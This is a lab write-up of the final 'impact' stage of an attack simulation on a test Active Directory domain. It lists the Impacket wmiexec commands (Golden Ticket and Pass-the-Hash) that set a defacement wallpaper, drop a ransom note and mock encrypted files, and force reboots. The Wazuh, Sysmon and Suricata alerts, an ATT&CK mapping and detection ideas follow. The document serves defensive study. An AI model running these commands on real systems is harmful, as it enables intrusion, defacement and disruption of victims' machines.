# Stage 20 — Impact

> **Status:** Complete — evidence attached  
> **Case:** [Case 03](../../04-Investigation/Cases/case-03-domain-compromise.md)  
> **Investigation:** [Phase 7 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-7-the-final-punch-simulated-ransomware-defacement--forced-reboots)  
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/58.5.png) · [alert](../../06-Resources/screenshots/thehive-alert/21.png)

## Objective

Demonstrate complete domain takeover and business disruption by defacing desktop wallpapers, dropping simulated ransomware notes and encrypted mockup files, and triggering forced system reboots across both the Domain Controller and Windows 10 workstation.

> [!NOTE]
> **Defacement Image Format:**  
> Any standard 24-bit bitmap image (`.bmp`) can be used as `hacked.bmp`. There is no requirement for any specific graphic or proprietary asset—any valid `.bmp` file saved to `/home/kali/hacked.bmp` will successfully apply as the desktop background across Windows endpoints.

## Commands

```bash
# === 1. Stage Defacement Artifact from Kali to DVWA Pivot ===
scp /home/kali/hacked.bmp root@192.168.56.30:/tmp/hacked.bmp

# === 2. Impact Execution on Domain Controller (PC-DC.ad.lab) via Golden Ticket ===
# Connect via wmiexec using forged Kerberos ticket
python3 /usr/local/bin/wmiexec.py -k -no-pass ad.lab/Administrator@PC-DC.ad.lab

# Upload defacement wallpaper to DC temporary directory
lput /tmp/hacked.bmp C:\Windows\Temp\

# Copy wallpaper to globally readable public directory
cmd /c "copy C:\Windows\Temp\hacked.bmp C:\Users\Public\hacked.bmp"

# Enforce defacement wallpaper across active user sessions via registry modification
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v Wallpaper /t REG_SZ /d C:\Users\Public\hacked.bmp /f"
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v WallpaperStyle /t REG_SZ /d 2 /f"

# Drop extortion ransom note on Administrator desktop
cmd /c "echo YOU HAVE BEEN HACKED. Contact: eclipse@manic ^| eclipsemanic.me > C:\Users\Administrator\Desktop\README_HACKED.txt"

# Simulate ransomware encryption by replacing targets with encrypted mock data
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\Administrator\Desktop\documents.enc"
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\Administrator\Desktop\passwords.enc"

# Force immediate system reboot to apply wallpaper changes and disrupt DC operations
cmd /c "shutdown /r /t 0"
exit

# === 3. Impact Execution on Windows 10 Workstation (192.168.56.20) via Pass-the-Hash ===
# Connect via wmiexec using Administrator NTLM hash
python3 /usr/local/bin/wmiexec.py -hashes aad3b***ee:cc814***9fb Administrator@192.168.56.20

# Upload defacement wallpaper to workstation temporary directory
lput /tmp/hacked.bmp C:\Windows\Temp\

# Copy wallpaper to public directory
cmd /c "copy C:\Windows\Temp\hacked.bmp C:\Users\Public\hacked.bmp"

# Enforce defacement wallpaper via registry keys
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v Wallpaper /t REG_SZ /d C:\Users\Public\hacked.bmp /f"
cmd /c "reg add \"HKCU\Control Panel\Desktop\" /v WallpaperStyle /t REG_SZ /d 2 /f"

# Drop extortion ransom note on user desktop
cmd /c "echo YOU HAVE BEEN HACKED. Contact: eclipse@manic ^| eclipsemanic.me > C:\Users\win10\Desktop\README_HACKED.txt"

# Simulate ransomware encryption by writing mock encrypted files
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\win10\Desktop\documents.enc"
cmd /c "echo ENCRYPTED_DATA_XOR_KEY_7f3a9b > C:\Users\win10\Desktop\passwords.enc"

# Force immediate workstation reboot to apply defacement and terminate user sessions
cmd /c "shutdown /r /t 0"
exit
```

## What happened

Having stolen credentials, mapped the domain, and exfiltrated sensitive files, the final phase was demonstrating real-world operational impact—simulating what a destructive ransomware or wiper actor would do:

1. **Staging the defacement asset:** I copied our custom bitmap image (`hacked.bmp`) from Kali to `/tmp/hacked.bmp` on the DVWA pivot.
2. **Executing impact on the Domain Controller (`PC-DC`):**
   - Connecting via `wmiexec.py` using our forged Golden Ticket, I uploaded `hacked.bmp` to `C:\Windows\Temp\` and copied it to `C:\Users\Public\hacked.bmp`.
   - I updated the Windows registry (`HKCU\Control Panel\Desktop`) to enforce `hacked.bmp` as the system wallpaper.
   - I dropped an extortion ransom note onto the Administrator desktop: `README_HACKED.txt`.
   - I simulated ransomware file locking by writing mock encrypted files (`documents.enc` and `passwords.enc`) to the desktop.
   - I triggered an immediate forced reboot: `shutdown /r /t 0`.
3. **Executing impact on the Windows 10 Workstation (`Win10`):**
   - Connecting via `wmiexec.py` using Pass-the-Hash with the `Administrator` hash, I uploaded `hacked.bmp` and copied it to `C:\Users\Public\hacked.bmp`.
   - I updated the workstation's registry to set the wallpaper.
   - I placed `README_HACKED.txt`, `documents.enc`, and `passwords.enc` directly onto the user's desktop (`C:\Users\win10\Desktop\`).
   - I forced an immediate reboot (`shutdown /r /t 0`), locking out the user and displaying the defaced desktop upon startup.

Both machines were completely compromised, defaced, and temporarily knocked offline, concluding the 20-stage attack simulation.

## Evidence

### Attack Execution & Verification Screenshots


*Figure 20.1: Staging `hacked.bmp` from Kali machine to DVWA pivot host `/tmp` directory via SCP.*


*Figure 20.2: Remote execution on PC-DC via Golden Ticket wmiexec modifying registry keys, dropping ransom note, and triggering shutdown.*


*Figure 20.3: Domain Controller desktop post-reboot showing "EclipseManic — YOU GOT HACKED" wallpaper, README_HACKED.txt, and .enc files.*


*Figure 20.4: Remote execution on Win10 workstation via Pass-the-Hash wmiexec deploying defacement wallpaper and ransom notes.*


*Figure 20.5: Windows 10 workstation desktop post-reboot displaying the defacement background and desktop ransom artifacts.*


*Figure 20.6: Notepad showing the contents of README_HACKED.txt, documents.enc, and passwords.enc.*

### Detection & Alert Screenshots


*Figure 20.7: TheHive Alert 20 capturing root SSH logon on DVWA during defacement image staging.*


*Figure 20.8: TheHive dashboard showing correlated alerts on PC-DC for process execution and registry modification.*


*Figure 20.9: Wazuh Sysmon Rule 100613 alert on PC-DC recording registry changes, ransom note generation, and shutdown command.*


*Figure 20.10: Wazuh Sysmon Rule 92041 detecting `reg.exe` modifying `HKCU\Control Panel\Desktop\Wallpaper` on PC-DC.*


*Figure 20.11: Wazuh Sysmon Rule 92041 detecting modification of `WallpaperStyle` on PC-DC.*


*Figure 20.12: TheHive dashboard showing alerts on Win10 alongside network-level Suricata NTLM session detection.*


*Figure 20.13: Wazuh Sysmon Rule 100613 alert on Win10 recording registry manipulation, extortion notes, and shutdown invocation.*


*Figure 20.14: Suricata Rule 86601 alerts capturing NTLM Session Setup Negotiate, Challenge, and Auth flows from pivot to Win10.*


*Figure 20.15: Wazuh Sysmon Rule 92041 alert on Win10 capturing `reg.exe` setting wallpaper to `hacked.bmp`.*


*Figure 20.16: Wazuh Sysmon Rule 92041 alert on Win10 capturing `reg.exe` modifying `WallpaperStyle`.*

## Alert observed

Stage 20 generated a massive, high-fidelity alert burst spanning network intrusion detection (Suricata), host behavioral monitoring (Sysmon/Wazuh), and incident management (TheHive).

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Wazuh (Host Command Audit) | Bash command by root: `python3 wmiexec.py ...` (DC & Win10 Impact) | Rule 100220 (Level 5) | SIEM Indexed (`Wazuh-Raw-Alerts.csv` Rows 9443, 9501) | High | **Detected (Impact Fan-Out Capture)** |
| Wazuh / Linux SSH | sshd: authentication success (staging `hacked.bmp`) | 5715 | TheHive Alert #38 (`20.png` / `wzb-8d45b2d236`) — `[2x] [DVWA] Logon activity: ROOT @ 192.168.232.135` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Impacket wmiexec fan-out on PC-DC (registry, ransom notes, shutdown) | 100613 | TheHive Alert #39 (`21.1.png` / `wzb-71ef983ad8`) — `[FANOUT x9] [DomainWin10] parent PID 4432` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (Wallpaper on PC-DC) | 92041 | TheHive Alert #40 (`21.2.png` / `wzb-80288ff075`) — `[FANOUT x1] [DomainWin10] parent PID 6500` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (WallpaperStyle on PC-DC) | 92041 | TheHive Alert #41 (`21.3.png` / `wzb-ddc9d1a730`) — `[FANOUT x1] [DomainWin10] parent PID 4980` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Impacket wmiexec fan-out on Win10 (registry, ransom notes, shutdown) | 100613 | TheHive Alert #42 (`22.1.png` / `wzb-1f43c1540f`) — `[FANOUT x9] [Win10User] parent PID 4008` | Medium (2) | **Detected** |
| Suricata IDS | ET INFO NTLM Session Setup Request / Response (Flow: 56.30 -> 56.20:445) | 86601 | TheHive Alert #43 (`22.2.png` / `wzb-7a4a134d1b`) — `[3x] [Suricata] Suricata: Alert - ET INFO NTLM...` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (Wallpaper on Win10) | 92041 | TheHive Alert #44 (`22.3.png` / `wzb-15ffcdec4f`) — `[FANOUT x1] [Win10User] parent PID 1724` | Medium (2) | **Detected** |
| Wazuh / Sysmon | Value added to registry key has Base64-like pattern (WallpaperStyle on Win10) | 92041 | TheHive Alert #45 (`22.4.png` / `wzb-d22fa8d83f`) — `[FANOUT x1] [Win10User] parent PID 3880` | Medium (2) | **Detected** |

> [!IMPORTANT]
> **Heavy Alerting Observed:** Every component of the impact stage triggered actionable telemetry. Sysmon process tracking caught the Impacket shell pipelines (Rule 100613); Sysmon process creation tracking caught the wallpaper alterations (EID 1 reg.exe add, Rule 92041); and Suricata captured the SMB NTLM handshake (Rule 86601) as the attacker moved laterally from DVWA to the Windows 10 workstation.

## MITRE ATT&CK

| Tactic | Technique | Sub-technique | ID |
|---|---|---|---|
| Impact | Defacement | Internal Defacement | T1491.001 |
| Impact | Data Encrypted for Impact | | T1486 |
| Impact | System Shutdown/Reboot | | T1529 |
| Defense Evasion | Modify Registry | | T1112 |
| Execution | Windows Management Instrumentation | | T1047 |
| Lateral Movement | Use Alternate Authentication Material | Pass the Hash | T1550.002 |

## Detection opportunities

- **Desktop Wallpaper Registry Tampering:** Monitor Sysmon Event IDs 12/13 (Registry Create/Set) targeting `\Control Panel\Desktop\Wallpaper` and `\Control Panel\Desktop\WallpaperStyle` when modified by non-standard parent processes or scripts.
- **Ransomware Note File Creation:** Alert on File Create events (Sysmon Event ID 11) for common ransom note names (`README_*.txt`, `HOW_TO_DECRYPT*`, `DECRYPT_INFO*`) or sudden bursts of files with encrypted extensions (`.enc`, `.locked`, `.crypto`) on user desktop directories.
- **Abrupt Administrative Shutdown / Reboot:** Alert on process creation (Event ID 4688 / Sysmon Event ID 1) invoking `shutdown.exe` with flags `/r` or `/s` and `/t 0` originating from remote management services (`WmiPrvSE.exe`, `services.exe`).
- **Network SMB Authentication Spikes:** Correlate Suricata NTLM session alerts (Rule 86601) with endpoint file creation events in public directories (`C:\Users\Public\`) within 60 seconds.

## Notes

- **Affected Systems:**
  - `PC-DC.ad.lab` — Windows Server 2022 Domain Controller (`192.168.56.10`)
